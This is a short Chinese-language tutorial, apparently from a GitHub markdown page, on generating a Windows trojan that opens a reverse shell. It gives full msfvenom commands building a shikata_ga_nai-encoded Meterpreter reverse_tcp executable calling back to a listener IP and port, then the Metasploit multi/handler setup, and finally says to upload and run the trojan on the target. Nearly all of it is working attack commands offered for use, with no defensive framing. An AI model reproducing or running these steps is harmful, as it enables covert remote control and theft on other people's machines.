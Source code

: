 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   msfvenom -p windows/meterpreter_reverse_tcp LHOST={监控IP} LPORT={监控端口} -e x86/shikata_ga_nai  -f exe -o  new.exe -i 5

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567  -e x86/shikata_ga_nai  -f exe -o  shell.exe  -i 5

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf![1642501758409](生成木马反弹shell（Windows）.assets/1642501758409.png)

2. 载入监控模块  msf中输入： use exploit/multi/handler

   ![1642501831818](生成木马反弹shell（Windows）.assets/1642501831818.png)

3. 加载payload  msf终端中输入：set payload windows/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options ![1642501934250](生成木马反弹shell（Windows）.assets/1642501934250.png)

8. 执行监控  msf终端中输入： run

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1642501969373](生成木马反弹shell（Windows）.assets/1642501969373.png)
